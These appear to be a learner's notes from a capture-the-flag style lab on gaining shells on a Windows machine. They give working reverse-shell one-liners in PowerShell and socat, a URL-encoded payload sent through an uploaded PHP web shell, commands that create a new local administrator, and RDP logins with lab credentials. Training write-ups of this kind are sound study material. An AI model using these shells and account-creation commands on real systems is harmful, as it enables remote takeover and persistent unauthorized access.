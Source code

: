 	setting nc listener -> nc -nvlp 1234
	
	changing the url to acces php shell :
	
	
	 machineIP/uploads/php-reverse-shell.php?cmd=
	`powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22`

6) **The webserver is running with SYSTEM privileges. Create a new user and add it to the "administrators" group, then login over RDP or WinRM.**

	To login using RDP:
	`xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.10.189.136 /u:Administrator /p:'TryH4ckM3!'`
	
	![[Pasted image 20240821011814.png]]

	create new users and add privileges into the windows machine
	
	`net user <username> <password> /add`
	`net localgroup administrators <username> /add`

	![[Pasted image 20240821011938.png]]

	logging again via RPD using the new privileged credentials:
	`xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.10.189.136 /u:nbyte /p:'nbyte'`

7)  **Socat and netcat to obtain reverse and bind shells on the Windows Target.**

	- socat:
		`socat TCP-L:<port> -`
		
		reverse shell (windows)
		`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes`
		
		bind shell(windows):
		`socat TCP-L:<PORT> EXEC:powershell.exe,pipes`

	- netcat
		`nc -nvlp 1234`
		
		powershell (run in cmd directly):
		`powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("machineIP",PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()`

8) **Create a 64bit Windows Meterpreter shell using msfvenom and upload it to the Windows Target. Activate the shell and catch it with multi/handler. Experiment with the features of this shell.**
